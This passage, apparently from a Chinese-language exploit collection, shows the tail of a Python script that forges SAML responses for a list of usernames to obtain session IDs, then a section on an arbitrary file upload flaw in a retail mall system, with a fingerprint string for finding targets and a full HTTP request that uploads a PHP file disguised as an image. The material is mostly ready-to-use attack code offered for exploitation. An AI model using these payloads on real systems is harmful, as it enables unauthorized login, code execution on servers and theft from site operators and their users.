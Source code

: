 ```
        "SAMLResponse": saml_response
    }
    response = requests.post(url, data=data)
    
    if response.status_code == 200:
        soup = BeautifulSoup(response.text, 'html.parser')
        session_id = soup.find('sessionid')
        if session_id:
            logging.info(f"Login successful, session ID: {session_id.text}")
            print(f"Login successful, session ID: {session_id.text}")
        else:
            logging.info("Login failed, no session ID found in response.")
            print("Login failed, no session ID found in response.")
    else:
        logging.info(f"Login failed, status code: {response.status_code}")
        print(f"Login failed, status code: {response.status_code}")

# Attempt login for each username
for username in usernames:
    saml_response = generate_saml_response(username)
    attempt_login(saml_response)
```  
## 1.2创客13星-零售商城系统-任意文件上传  
### 1.2.1资产收集  
  
response:"/Public/Xin/static/css/iconfont.css"  
### 1.2.2利用  
  
需要有注册账号，网上有一些资产，用户系统不多。  
  
1.poc代码  
```
POST /Login/shangchuan HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBP56KuZOdlY4nLGg
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/Login/shangchuan
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```  
  